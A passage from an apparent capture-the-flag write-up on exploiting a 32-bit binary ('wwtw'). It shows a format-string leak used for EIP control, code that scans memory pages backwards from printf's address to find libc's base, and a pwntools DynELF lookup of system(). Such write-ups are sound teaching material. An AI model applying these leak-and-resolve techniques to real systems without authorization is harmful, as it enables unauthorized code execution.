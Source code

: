     <span class="Statement">if</span> resp == <span class="Constant">&quot;&quot;</span>:
        resp = <span class="Constant">&quot;</span><span class="Special">\0</span><span class="Constant">&quot;</span>
    <span class="Statement">return</span> resp
</pre>

Then, exactly like the last blog, we use the vulnerability to leak a return address and frame pointer, then overwrite the return address with a chosen address, and thus obtain EIP control.

<h3>Getting libc's base address</h3>
Next, we needed an address to return to. This was a little tricky, since I wasn't able to steal a copy of their libc.so file (it's the only 32-bit level our team worked on) - that means I could easily exploit myself, because I have libc handy, but I couldn't exploit them. There's a "pwntool" module that can find base addresses given a memory leak, but it was too slow and the binary would time out before it finished (more on that later).

So, I used the format-string vulnerability and a bit of experience to get the base address of libc. We use %s in the format string to leak data from the <a href='https://stackoverflow.com/questions/20486524/what-is-the-purpose-of-the-procedure-linkage-table'>PLT</a> and get an address of anything in the libc binary - I chose to find printf() because it's the first one I could think of. That's at a static offset in the wwtw binary file (we already know the return address, since we leaked it off the stack, and that can be used to calculate where the PLT is).

Once I had that address, I worked my way backwards, reading the first bytes of each page (multiple of 0x1000) until I found an ELF header. Here's the code:

<pre id='vimCodeElement'>
bf = printf_addr - <span class="Constant">0xc280</span>
<span class="Statement">while</span> <span class="Identifier">True</span>:
    <span class="Identifier">print</span> &gt;&gt; sys.stderr, <span class="Constant">&quot;Checking&quot;</span>, <span class="Identifier">hex</span>(bf), <span class="Constant">&quot; (printf - &quot;</span>, <span class="Identifier">hex</span>(printf_addr - bf), <span class="Constant">&quot;)...&quot;</span>
    <span class="Identifier">str</span> = leak(bf)
    <span class="Identifier">print</span> &gt;&gt; sys.stderr, hexify(<span class="Identifier">str</span>)
    <span class="Statement">if</span>(<span class="Identifier">str</span>[<span class="Constant">0</span>:<span class="Constant">4</span>] == <span class="Constant">&quot;</span><span class="Special">\x7F</span><span class="Constant">ELF&quot;</span>):
        <span class="Statement">break</span>

    bf -= <span class="Constant">0x1000</span>
</pre>

I now had the relative offset of printf(), which means given the address of printf(), I can find the base address deterministically.

<h3>Getting system()'s address</h3>
Once I had the base address, I wanted to find the address of system(). I don't normally like using stuff I didn't write, because it's really hard to troubleshoot when there's a problem, but I couldn't find an easy way to do this by bruteforce, so I tried using <a href='https://github.com/Gallopsled/pwntools'>pwntools</a> ('leak' refers to the function shown earlier):

<pre id='vimCodeElement'>
d = dynelf.DynELF(leak, libc_base_REAL)
system_addr = d.lookup(<span class="Constant">&quot;system&quot;</span>, <span class="Constant">'libc'</span>)
</pre>
